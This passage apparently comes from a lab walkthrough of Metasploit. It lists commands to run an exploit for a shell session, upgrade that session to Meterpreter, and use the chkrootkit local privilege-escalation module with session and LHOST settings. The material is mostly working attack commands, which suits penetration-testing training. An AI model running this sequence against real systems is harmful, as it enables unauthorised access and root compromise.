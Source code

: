 Run the exploit to establish an SSH session:

```bash
exploit
```

List active sessions:

```bash
sessions
```

### Upgrading to Meterpreter Session

Upgrade the **cmd shell session** to a **Meterpreter session**:

```bash
sessions -u 1
```

List all active sessions:

```bash
sessions
```

### Privilege Escalation

We will now attempt to escalate privileges using the **chkrootkit** vulnerability:

Search for the **chkrootkit** exploit:

```bash
search chkrootkit
```

Use the **chkrootkit local privilege escalation** exploit:

```bash
use exploit/unix/local/chkrootkit
```

Set the session to exploit (assuming session 2):

```bash
set session 2
set CHKROOTKIT /bin/chkrootkit
```

Run the exploit:

```bash
exploit
```

If no Meterpreter session is created, adjust **LHOST** and re-run the exploit:

```bash
set lhost eth1
show options
exploit
```
